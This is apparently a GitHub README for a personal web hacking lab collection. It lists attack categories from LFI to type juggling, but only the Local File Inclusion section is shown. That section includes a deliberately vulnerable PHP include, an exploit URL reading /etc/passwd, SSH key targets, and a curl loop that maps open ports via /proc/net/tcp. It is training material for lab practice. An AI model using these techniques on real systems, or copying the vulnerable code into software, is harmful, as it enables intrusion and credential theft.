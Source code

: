 # Web hacking labs

This is a compilation of the web hacking techniques I could recopilate trying separate it in each category or from what hackthebox machine I was able to get it!

Hope you enjoy!


The different attacks we're going to deploy here and define a methodology are:
- Local File Inclusion
- Wrappers
- Log Poisoning
- Remote File Inclusion
- HTML Injection
- Cross-Site Scripting (XSS)
- Blind Cross-Site Scripting (XSS Blind)?
- Cross-Site Request Forgery (CSRF)
- Server-Side Request Forgery (SSRF)
- SQLi - Error based
- SQLi - Time based
- Padding Oracle Attack (Padbuster)
- Padding Oracle Attack (Bit Flipper Attack with Burpsuite)
- ShellShock
- XML External Entity Injection (XXE)
- Blind XXE
- Domain Zone Transfer
- Insecure Deserialization
- Type Juggling


-----------------------

Other I plan to add:
- IDOR
- Magic Numbers
- IDN homographic attack



## Local File Inclusion
**PoC**
```bash
#run apache service
sudo service apache2 start
#check the port 80 busy
lsof -i:80

#Create a php app
cd /var/www/html
nano example.php
```
```text
<?php
	$filename = $_GET['file']; # ?file=example.php
	include($filename);
?>
```
Right now you can exploit the LFI in your local machine with: `localhost/example.php?file=/etc/passwd`

What can we do exploit with this?:
- Enum users (/etc/passwd)
- Extract ssh keys (~/.ssh/id_rsa)
- Log Poisoning
- Enumerate /proc/ information
	- Enumerate process and IP interfaces (/proc/sched_debug)
	- Enumerate IP interfaces (/proc/net/fib_trie)
	- Enumerate open ports (/proc/net/tcp)
	```
	for port in $(curl -s "http://localhost/example.php?file=/proc/net/tcp" | awk '{print $2}' | grep -v local_address | awk '{print $2}' FS=":" | sort -u); do echo "[$port] -> Puerto $(echo "ibase=16; $port" | bc)"; done
	```
